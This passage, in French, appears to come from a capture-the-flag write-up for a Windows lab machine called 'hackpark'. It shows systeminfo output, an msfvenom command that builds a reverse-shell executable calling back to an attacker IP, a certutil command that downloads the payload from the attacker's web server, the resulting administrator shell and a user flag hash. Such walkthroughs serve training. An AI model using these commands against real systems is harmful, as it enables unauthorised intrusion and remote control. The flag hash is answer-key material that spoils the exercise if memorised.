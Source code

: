 ```
Virtual Memory: Available: 4,469 MB
Virtual Memory: In Use:    1,035 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 8 Hotfix(s) Installed.
                           [01]: KB2919355
                           [02]: KB2919442
                           [03]: KB2937220
                           [04]: KB2938772
                           [05]: KB2939471
                           [06]: KB2949621
                           [07]: KB3035131
                           [08]: KB3060716
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.129.174
                                 [02]: fe80::419b:97d2:3d33:cdb5
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```


On utilise `msfvenom` pour créer un nouveau reverse shell

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.11.184 LPORT=7777 -f exe -o Message.exe
```

Démarrage du serveur web local

Démarrage du netcat dur le port 7777

Upload du binaire généré.

> https://lolbas-project.github.io/lolbas/Binaries/Certutil/

```
cd C:\PROGRA~2\SYSTEM~1\
certutil.exe -urlcache -split -f http://10.9.11.184/Message.exe
```


```
C:\PROGRA~2>whoami
whoami
hackpark\administrator
```

```
C:\Users\jeff\Desktop>type user.txt
type user.txt
759bd8af507517bcfaede78a21a73e39
```
